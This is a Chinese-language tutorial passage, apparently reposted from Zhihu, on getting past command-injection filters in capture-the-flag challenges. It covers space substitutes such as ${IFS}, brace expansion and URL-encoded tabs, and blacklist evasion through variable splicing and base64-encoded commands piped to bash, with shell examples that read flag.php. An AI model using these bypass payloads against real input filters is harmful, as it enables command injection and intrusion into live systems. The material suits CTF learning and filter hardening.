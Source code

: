 1、绕过过滤字符
--------

> **原文：[https://zhuanlan.zhihu.com/p/672515980](https://zhuanlan.zhihu.com/p/672515980)**

### 1.1 空格绕过

<1>`${IFS}`，Linux 下有一个特殊的环境变量叫做 IFS，叫做内部字段分隔符（internal field separator）。IFS 环境变量定义了 bash shell 用户字段分隔符的一系列字符。默认情况下，bash shell 会将下面的字符当做字段分隔符：空格、制表符、换行符。

<2>`${IFS}$9`，#`$9`可改成`$`加其他数字。

<3>`{cat,flag.php}`，用`,`实现了空格；指令中的`{}`通配符，shell 会先把`{}`的内容按照解释方式翻译成一个或多个参数，再执行该含有多参数的指令。在 Linux bash 中可以使用`{OS_COMMAND,ARGUMENT}`来执行系统命令，如`{mv,文件1，文件2}`。

<4>`<`，输入重定向，将一个文件的内容作为命令的输入。

<5>`<>`，重定向符

<6>`%20`，URL 传递

<7>`%09`，URL 传递

```
[root@localhost home]#cat${IFS}flag.php

[root@localhost home]# cat${IFS}$9flag.php

[root@localhost home]# {cat,flag.php}

[root@localhost home]# cat<flag.php

[root@localhost home]# cat<>flag.php
```

### 1.2 黑名单绕过

### 1.2.1 拼接变量

黑名单中有 flag，通过拼接变量绕过

```
[root@localhost home]# a=g;cat fla$a.php
[root@localhost home]# a=fl;b=ag;cat $a$b.php
```

### 1.2.2 编码绕过

<1>base64 编码

[https://the-x.cn/encodings/Base64.aspx](https://link.zhihu.com/?target=https%3A//the-x.cn/encodings/Base64.aspx)

```
cat flag.php => Y2F0IGZsYWcucGhw
  
[root@localhost home]# `echo "Y2F0IGZsYWcucGhw"|base64 -d`

[root@localhost home]# $(echo "Y2F0IGZsYWcucGhw"|base64 -d)

[root@localhost home]# echo "Y2F0IGZsYWcucGhw"|base64 -d|bash

[root@localhost home]# echo "Y2F0IGZsYWcucGhw"|base64 -d|sh
```
